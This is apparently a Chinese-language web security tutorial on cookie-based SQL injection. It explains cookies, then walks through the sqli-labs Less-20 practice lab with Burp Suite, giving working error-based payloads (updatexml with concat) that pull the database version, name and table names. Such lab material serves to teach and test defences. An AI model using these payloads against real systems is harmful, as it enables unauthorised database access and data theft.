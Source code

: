 服务器可以利用 Cookies 包含信息的任意性来筛选并经常性维护这些信息，

以判断在 HTTP 传输中的状态。Cookies 典型的应用是判定注册用户是否已经登

录网站，用户可能会得到提示，是否在下一次进入此网站时保留用户信息以便简

化登录手续，这些都是 Cookies 的功能。另一个重要应用场合是“购物车"之类

处理。用户可能会在一段时间内在同一家网站的不同页面中选择不同的商品，这

些信息都会写 Cookies,以便在最后付款时提取信息。

可以通过浏览器的开发者工具来查看 cookie

Console 中输入 doccument.cookie

### **二、代码分析** **cookie** **注入原理**

1. 获得请求得 cookie
2. Cookie 数据没有做特殊处理
3. Sql 语句得执行使用 cookie

代码中使用 Cookie 传递参数，但是没有对 Cookie 中传递的参数进行过滤操

作。导致 SQL 注入漏洞的产生。

源代码分析这里就可以利用’`$cookee`’来注入了

### **三、Cookie** **注入演示**

#### Less-20 报错注入

`Cookie`

用 burpsuite 发送给 Less-20 页面，第一次发送给没有 `cookie`，后来在发送就`cookie` 了

Payload 注入

用如下的 payload 进行注入可以获得版本

##### 版本

```
uname=admin' and updatexml(1,concat(0x7e,version(),0x7e),1) --+
```

![image-20240807193347522](../../../../repo/assets/19.SQL注入/image-20240807193347522.png)

##### 爆破数据库名

```
uname=admin' and updatexml(1,concat(0x7e,database(),0x7e),1)--+
```

![image-20240807193428525](../../../../repo/assets/19.SQL注入/image-20240807193428525.png)

##### 爆破数据表名

```
uname=admin' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e),1)--+
```
